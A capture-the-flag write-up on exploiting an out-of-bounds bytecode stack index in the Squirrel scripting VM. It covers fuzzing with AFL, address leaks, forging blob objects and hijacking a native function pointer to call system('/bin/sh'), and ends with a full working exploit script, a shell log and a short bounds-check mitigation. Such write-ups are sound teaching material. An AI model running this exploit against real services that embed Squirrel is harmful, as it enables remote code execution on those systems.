


# Squirrel as a Service

## Table of Contents

1. [Challenge](#challenge)
2. [Looking at the challenge](#looking-at-the-challenge)
3. [Compiling squirrel](#compiling-squirrel)
4. [Having the fuzzer look for vulnerabilities](#having-the-fuzzer-look-for-vulnerabilities)
5. [Developing an exploit](#developing-an-exploit)
6. [Final exploit](#final-exploit)
7. [Mitigation](#mitigation)

## Challenge

**Category**: Pwn  
**Difficulty**: Hard  
**Author**: 0x4d5a  
**Attachments**: [saas.zip](https://static.allesctf.net/challenges/799312ee666ad98467bbfd9810c791b9596761f4020c414c0452ead9e49023e4/saas.zip)

**Description**:
```
🐿️ as a Service! Squirrel lang (ˈaɪ̯çˌhœʁnçən) is a super simple programming language. And our server will execute your squirrel scripts, either in text or binary based format. Go exploit it. To test this service, take this cool script:

class CSCG
{	
  constructor()
  {
    isCool = true;
  }
  isCool = false;
}

function CSCG::IsCool()
{
  if (isCool)
  {
    print("CSCG is so cool!\n");
  }
}
local cscg = CSCG()
cscg.IsCool()
```

## Looking at the challenge

Having a look at the zip we can see the following files:

```
$ unzip -l saas.zip 
Archive:  saas.zip
  Length      Date    Time    Name
---------  ---------- -----   ----
        0  2020-05-02 19:48   docker/
      217  2020-04-30 23:52   docker/docker-compose.yml
      509  2020-05-01 00:33   docker/Dockerfile
       17  2020-04-30 23:34   docker/flag
        0  2020-04-30 23:34   docker/lib/
    94120  2020-05-01 02:41   docker/lib/libsqstdlib.so.0.0.0
   363488  2020-05-01 02:38   docker/lib/libsquirrel.so.0.0.0
    18144  2020-05-02 19:43   docker/sq
    18744  2020-04-30 23:34   docker/ynetd
      660  2020-04-30 23:55   Instructions.md
     4824  2020-05-02 19:47   sq.c
---------                     -------
   500723                     11 files
```

The `Instructions.md` file tells us how to compile squirrel for ourselves,
lets do just that.

## Compiling squirrel

### Normal version

We can build the normal version using the following commands:

```sh
git clone https://github.com/albertodemichelis/squirrel.git
mkdir build
cd build
cmake ../squirrel
make
```

Cool. Now we can compile our `.nut` files into `Squirrel Byte Code`, awesome.
We should probably also look into those debugging options so lets do just that.

### Debugging version

After looking through the source code for possible debugging options, which
I - heed my words - **not** recommend to you, seriously I've seen shite code,
but this is something else. Why does everything need it's own typedef? And
why are there wrappers for malloc etc?? Just look at it:

```c
struct SQInstruction
{
    SQInstruction(){};
    SQInstruction(SQOpcode _op,SQInteger a0=0,SQInteger a1=0,SQInteger a2=0,SQInteger a3=0)
    {   op = (unsigned char)_op;
        _arg0 = (unsigned char)a0;_arg1 = (SQInt32)a1;
        _arg2 = (unsigned char)a2;_arg3 = (unsigned char)a3;
    }


    SQInt32 _arg1;
    unsigned char op;
    unsigned char _arg0;
    unsigned char _arg2;
    unsigned char _arg3;
};
```
I mean sure, struct packing and stuff but why is it named in such a fashion?

Anyways, enough getting sidetracked. After copying the provided `sq.c` into the
source tree, I came up with the following patch to allow for easy debugging:

```patch
diff --git a/CMakeLists.txt b/CMakeLists.txt
index dc35b6f..55b33d7 100644
--- a/CMakeLists.txt
+++ b/CMakeLists.txt
@@ -26,7 +26,7 @@ if(CMAKE_COMPILER_IS_GNUCXX)
     "$<$<CONFIG:Release>:-O3>"
     "$<$<CONFIG:RelWithDebInfo>:-O3;-g>"
     "$<$<CONFIG:MinSizeRel>:-Os>"
-    "$<$<CONFIG:Debug>:-pg;-pie;-gstabs;-g3;-Og>"
+    "$<$<CONFIG:Debug>:-pg;-pie;-gstabs;-g3;-Og;-D_DEBUG_DUMP>"
     )
 elseif(MSVC)
   set(CMAKE_WINDOWS_EXPORT_ALL_SYMBOLS ON)
diff --git a/squirrel/sqvm.cpp b/squirrel/sqvm.cpp
index dcf823d..79a2da8 100644
--- a/squirrel/sqvm.cpp
+++ b/squirrel/sqvm.cpp
@@ -718,8 +718,8 @@ exception_restore:
         for(;;)
         {
             const SQInstruction &_i_ = *ci->_ip++;
-            //dumpstack(_stackbase);
-            //scprintf("\n[%d] %s %d %d %d %d\n",ci->_ip-_closure(ci->_closure)->_function->_instructions,g_InstrDesc[_i_.op].name,arg0,arg1,arg2,arg3);
+            dumpstack(_stackbase);
+            scprintf("\n[%d] %s %d %d %d %d\n",ci->_ip-_closure(ci->_closure)->_function->_instructions,g_InstrDesc[_i_.op].name,arg0,arg1,arg2,arg3);
             switch(_i_.op)
             {
             case _OP_LINE: if (_debughook) CallDebugHook(_SC('l'),arg1); continue;
```

The new cmake command line is as follows:

```sh
cmake ../squirrel -DCMAKE_BUILD_TYPE=Debug
```

So now we have built a debugging version which even prints us the internal
operations being performed, but what now? Sure we could look through the
source code and try to figure out where we could possibly gain code execution,
our we can just be lazy and leave a job like this to a fuzzer.

### Fuzzer version

In order to properly fuzz our resulting binary with `AFL` we should modify the
`sq.c` to accept input files. This patch does the trick:

```patch
diff --git a/sq/sq.c b/sq/sq.c
index 40b6184..1c27152 100644
--- a/sq/sq.c
+++ b/sq/sq.c
@@ -140,42 +140,6 @@ int main(int argc, char* argv[])
 	setvbuf(stdin, NULL, _IONBF, 0);
 	setvbuf(stderr, NULL, _IONBF, 0);
 
-	signal(SIGALRM, kill_on_timeout);
-	alarm(60);
-
-	char lenBuffer[128];
-
-	puts(header);
-	puts("Execute your squirrel code on this server. Please no coin mining!\n");
-	puts("Enter code length: ");
-
-	if (read(0, lenBuffer, 16) == -1)
-	{
-		puts("Something went horribly wrong :/\n");
-		exit(0);
-	}
-
-	unsigned int bufferLen = strtoul(lenBuffer, NULL, 0);
-	if (bufferLen > 64*1024)
-	{
-		puts("Nope, to big!\n");
-		exit(0);
-	}
-
-	puts("Enter Code:");
-
-	char* bytecode = (char*)malloc(bufferLen);
-
-	int currentLength = 0;
-	int lastRead = 0;
-	while (currentLength != bufferLen)
-	{
-		lastRead = read(0, bytecode + currentLength, 1);
-		currentLength += lastRead;
-	}
-
-	printf("[+] Code received. Executing...\n");
-
 	HSQUIRRELVM v;
 	SQInteger retval = 0;
 #if defined(_MSC_VER) && defined(_DEBUG)
@@ -195,14 +159,8 @@ int main(int argc, char* argv[])
 	//sets error handlers
 	sqstd_seterrorhandlers(v);
 
-	char templateFile[] = "/tmp/VMCODE-XXXXXXXX";
-
-	int filehandle = mkstemp(templateFile);
-	write(filehandle, bytecode, bufferLen);
-	close(filehandle);
-
 	//gets arguments
-	executeVm(v, &retval, templateFile);
+	executeVm(v, &retval, argv[1]);
 	//getargs(v, argc, argv, &retval, "/mnt/c/Users/Alain/Downloads/squirrel/git/bin/out2.cnut");
 
 	return 0;
```

Now we just have to build the `AFL` version using the following cmake command:

```sh
cmake ../squirrel -DCMAKE_C_COMPILER=$(which afl-gcc) -DCMAKE_CXX_COMPILER=$(which afl-g++)
```

## Having the fuzzer look for vulnerabilities

The fuzzer needs some bytecode input in order to function properly,
lucky for us the challenge authors were kind enough to provide a small
example script which we can compile with the normal version:

```sh
./sq_orig -o afl/in/example.cnut -c example.nut
```

Now we can have the `American fuzzy lop` fuzzer bash the binary and oh boy does
it not look good for the squirrel library:



But hey, what else could we expect with such _awesome_ code...

A lot of those segfaults appear to stem from stack object assignment:



Curiously those seem to happen with large values of `arg1`:

```
>>>>stack dump<<<<
IP: 0x5555555d1c58
prev stack base: 5
prev top: 8
 [0]:TABLE 0x5555555c8ac0[(nil)]
 [1]:CLOSURE [0x5555555d1eb0]
 [2]:CLASS 0x5555555d0580
 [3]:ARRAY 0x5555555d0210
 [4]:INSTANCE 0x5555555d0260
 [5]:INSTANCE 0x5555555d0310
 [6]:INSTANCE 0x5555555d08d0
>[7]:INSTANCE 0x5555555d08d0
 [8]:CLOSURE [0x5555555d0450]
 [9]:BOOL false

[1] _OP_LOAD 1 16384 0 0
```

Looking back to the code excerpt I've shown earlier we can see that `arg1`
is defined as a 32-bit integer and looking at `squirrel/sqvm.cpp` we can see
it being used directly as on offset without any care in the world:

```c
case _OP_MOVE: TARGET = STK(arg1); continue;
```

This allows us to load arbitrary stack objects and do whatever we want with
them. Well not quite arbitrary - these elements need to be 16byte aligned
as the stack is accessed as such: (`squirrel/sqvm.h`)

```c
SQObjectPtrVec _stack;
```

Looking up the typedefs is left as an exercise to the reader so that they
may never clutter their code with excessive typedefs.

## Developing an exploit

So now that we can load arbitrary stack objects, what can we do with this?
Well the squirrel standard libs offer some nice functionality - the `blob`
lib for example. This one has not been disabled by the organisers and `blob`s
allow us to create a region of memory we can arbitrarily modify - great.

So let's just create a blob object and pwn the damn thing already...
I wish we could but ASLR does not take kindly to static pointers, which we
need as in order to use the blob we need to create a chain of:

```
SQObjectPtr -> SQInstance -> SQBlob
```

Lucky for us the `print` - rather the `SQVM::ToString` function is _really_
chatty and even tells us the address of the `SQObject`s (`SQInstance`) in our
case. This allows us to grab the `blob` instance heap address at runtime using
the following squirrel code:

```
blob_1 <- blob(1000)
blob_inst_addr <- blob_1.tostring().slice(14, -1).tointeger(16)
```

Sure this might seem like it does not benefit us very much as this is a
**heap** object and we don't know where it lies - but this is actually not
correct. As we are the only ones using this instance we can _guess_ the
offset of the blob fairly accurately - allowing us to leak the heap base
address.

Not only can we guess the `SQInstance` offset, but also the `SQBlob`
location and the associated buffer.

```
BLOB1_OFFSET <- 0x22df0
BLOB1_CONTENT_OFFSET <- BLOB1_OFFSET + 0xb0
heap_base <- blob_inst_addr - BLOB1_OFFSET
```

So now back to crafting our custom blob:  
The way `SQInstance`s work we need to supply the address of a class in
order for the `blob` to function correctly, luckily leaking this is just
as trivial:

```
blob_cls_addr <- blob.tostring().slice(11, -1).tointeger(16)
```

Now to build the `SQObjectPtr` we can use the following function:

```
create_stackobj <- function(blb, type_, ptr)
{
	blb.writen(type_, 'i') // type
	blb.writen(0, 'i')     // padding
	p64(blb, ptr)          // object pointer
}
```

And for the `SQInstance`:

```
create_instance <- function(blb, class_addr, userptr)
{
	p64(blb, 0xdeadbeef) // _vptr.SQRefCounted
	p64(blb, 100)        // _uiRef
	p64(blb, 0)          // _weakref
	p64(blb, 0)          // _next
	p64(blb, 0)          // _prev
	p64(blb, 0)          // _sharedstate
	p64(blb, 0)          // _delegate
	p64(blb, class_addr) // _class
	p64(blb, userptr)    // _userpointer
	p64(blb, 0xdeadbeef) // _hook
	p64(blb, 104)        // _memsize
	p64(blb, 0)          // _values pt1
	p64(blb, 0)          // _values pt2
}
```

And finally the `SQBlob`:

```
create_blob <- function(blb, base_addr, size, offset)
{
	p64(blb, 0)          // _vptr.SQStream
	p64(blb, size)       // _size
	p64(blb, size)       // _allocated
	p64(blb, offset)     // _ptr
	p64(blb, base_addr)  // _buf
	p64(blb, 1)          // _owns
}
```

Combining these three function we can create a (hopefully) functioning `blob`:

```
create_stackobj(blob_1, 0x0a008000, heap_base + BLOB1_CONTENT_OFFSET + 16)
create_instance(blob_1, blob_cls_addr, heap_base + BLOB1_CONTENT_OFFSET + 120)
create_blob(blob_1, heap_base, 0x42000, 0)
```

So now all that's left is to write our own assembler to assemble the code which
will load from crafted offsets... You know what? I'm really lazy and I mean
_really_ lazy, fat chance I'm writing an assembler for this.

So what are our options then? We _do_ have a compiler, so let's just adjust the
offsets in there... But how are we going to locate the bytes I need to change?
A disassembler would help... **NO.**

Checking the source code again we can see an instruction which our current
exploit does not yet use implement the same bugged behaviour: 
(`squirrel/sqvm.cpp`)

```c
            case _OP_APPENDARRAY:
                {
                    SQObject val;
                    val._unVal.raw = 0;
                switch(arg2) {
                case AAT_STACK:
                    val = STK(arg1); break;
                case AAT_LITERAL:
                    val = ci->_literals[arg1]; break;
                case AAT_INT:
                    val._type = OT_INTEGER;
#ifndef _SQ64
                    val._unVal.nInteger = (SQInteger)arg1;
#else
                    val._unVal.nInteger = (SQInteger)((SQInt32)arg1);
#endif
                    break;
                case AAT_FLOAT:
                    val._type = OT_FLOAT;
                    val._unVal.fFloat = *((const SQFloat *)&arg1);
                    break;
                case AAT_BOOL:
                    val._type = OT_BOOL;
                    val._unVal.nInteger = arg1;
                    break;
                default: val._type = OT_INTEGER; assert(0); break;

                }
                _array(STK(arg0))->Append(val); continue;
                }
```

So let's just force the compiler to use those opcodes and change them with our
favourite hex editor:

```
blob_2 <- blob(1024)
a <- [blob_2]
heap <- a[0]
```

`blob_2` is just a dummy in his case - we just need an instance on the stack.
And I have to say - this works beautifully only one instance of our opcode/arg
combination in the binary. (Use the debugging build to dump the executable)

Testing this we can see this working, awesome. But as soon as we try to execute
any function on the obtained heap blob we SEGFAULT. This happens due to us not
setting the vptr which c++ uses internally. Well shoot. We somehow need to also
leak the squirrel libstd...

Checking the heap around the stack we are out of luck as all library addresses
are 16byte aligned - no good as this is the `type` value of `SQObjectPtr`.
Checking further we find that our first `blob` `SQInstance` has a `_hook`
member which is 16byte + 8byte aligned. Awesome now we can also load this
value onto the stack and use the chatty `SQVM::ToString` function.

```
VPTR_BLOB_OFFSET <- 0x20d270
blob_2 <- blob(1024)
a <- [blob_2, blob_2]
vptr <- ("" + a[0]).slice(12, -1).tointeger(16) + VPTR_BLOB_OFFSET
heap <- a[1]

create_blob(blob_1, heap_base, 0x42000, escape_addr - heap_base, vptr)
```

As the vtables are static within the library we can easily calculate the offset
shown above.

Cool now we have read/write access to the heap. What now? Well squirrel
libraries implement functions as so called `SQNativeClosures`, which are
just fancy pointers to functions within the `libsqstdlib.so` or
`libsquirrel.so`. So let's just pick a function to override.

**Not too fast**, I said fancy didn't I? One of thos fancy features is argument
validation, sure we could override this as well - but why bother? We just need
to pick a function with a string argument. `print` seems like a good candidate,
but is not an option as it is contained within the `libsquirrel.so` and we need
a function within the `libsqstdlib.so` as the `_system_system` function is
located there. (Just not registering it doesn't mean it's not there :))

I ended up picking the `escape` function as it takes a singular string argument
and because I find it quite ironic to use the `escape` function to _escape_
the VM.

So now we just have to put it all together:

## Final exploit

Our final exploit looks like this:

```
/* Heap offsets */
BLOB1_OFFSET <- 0x22df0
BLOB1_CONTENT_OFFSET <- BLOB1_OFFSET + 0xb0
/* Library offsets */
SYSTEM_OFFSET <- 0xef90
ESCAPE_OFFSET <- 0xd8c0
VPTR_BLOB_OFFSET <- 0x20d270

blob_1 <- blob(1000)

p64 <- function(blb, val)
{
	for (local i = 0; i < 8; i++) {
		blb.writen(val & 0xff, 'b')
		val = val >> 8
	}
}

create_stackobj <- function(blb, type_, ptr)
{
	blb.writen(type_, 'i') // type
	blb.writen(0, 'i')     // padding
	p64(blb, ptr)          // object pointer
}

create_instance <- function(blb, class_addr, userptr)
{
	p64(blb, 0xdeadbeef) // _vptr.SQRefCounted
	p64(blb, 100)        // _uiRef
	p64(blb, 0)          // _weakref
	p64(blb, 0)          // _next
	p64(blb, 0)          // _prev
	p64(blb, 0)          // _sharedstate
	p64(blb, 0)          // _delegate
	p64(blb, class_addr) // _class
	p64(blb, userptr)    // _userpointer
	p64(blb, 0xdeadbeef) // _hook
	p64(blb, 104)        // _memsize
	p64(blb, 0)          // _values pt1
	p64(blb, 0)          // _values pt2
}

create_blob <- function(blb, base_addr, size, offset, vptr)
{
	p64(blb, vptr)       // _vptr.SQStream
	p64(blb, size)       // _size
	p64(blb, size)       // _allocated
	p64(blb, offset)     // _ptr
	p64(blb, base_addr)  // _buf
	p64(blb, 1)          // _owns
}

escape_addr <- escape.tostring().slice(14, -1).tointeger(16)
blob_cls_addr <- blob.tostring().slice(11, -1).tointeger(16)
blob_inst_addr <- blob_1.tostring().slice(14, -1).tointeger(16)
heap_base <- blob_inst_addr - BLOB1_OFFSET

create_stackobj(blob_1, 0x0a008000, heap_base + BLOB1_CONTENT_OFFSET + 16)
create_instance(blob_1, blob_cls_addr, heap_base + BLOB1_CONTENT_OFFSET + 120)

print("stdlib _string_escape: " + escape + "\n")
print("stdlib blob class: " + blob + "\n")
print("blob_1: " + blob_1 + "\n")

/*
 * This is the core of the exploit. The offsets need to be adjusted outside
 * of the compiler.
 *
 * Modify:
 *   xx xx xx xx 22 03 00 00
 *
 * In our case the offsets need to be:
 *   - 49 08 00 00 (blob_1 instance + offset to _userpointer) -> leaking lib
 *   - 50 08 00 00 (blob_1 data)
 */
blob_2 <- blob(1024)
a <- [blob_2, blob_2]
vptr <- ("" + a[0]).slice(12, -1).tointeger(16) + VPTR_BLOB_OFFSET
heap <- a[1]

print("Leaked ptr: " + a[0] + "\n")
print("Heap blob: " + heap + "\n")

create_blob(blob_1, heap_base, 0x42000, escape_addr - heap_base, vptr)

// EXPLOIT
heap.seek(104, 'c') // Seek to _function within SQNativeClosure
lower <- heap.readn('i')
heap.seek(-4, 'c')
heap.writen(lower - ESCAPE_OFFSET + SYSTEM_OFFSET, 'i')

escape("/bin/sh")
```

Running the above exploit gets us the flag `CSCG{t3chnic4lly_an_0d4y_but_...}`.

```
[+] Opening connection to hax1.allesctf.net on port 9888: Done
[*] Switching to interactive mode

[+] Code received. Executing...
stdlib _string_escape: (function : 0x0x55c3641f24f0)
stdlib blob class: (class : 0x0x55c3641ee230)
blob_1: (instance : 0x0x55c3641ef600)
Leaked ptr: ((null) : 0x0x7fab530aa820)
Heap blob: (instance : 0x0x55c3641ef6c0)
$ ls
flag
lib
sq
ynetd
$ cat flag
CSCG{t3chnic4lly_an_0d4y_but_...}
$ 
```

## Mitigation

In order to mitigate this exploit it would suffice to change the code
handling the offsets. (Boundary checks)
Specifically get rid of such simple constructs:

```c
val = STK(arg1);
```

Fuzzing the bytecode to find further exploits is also recommended.
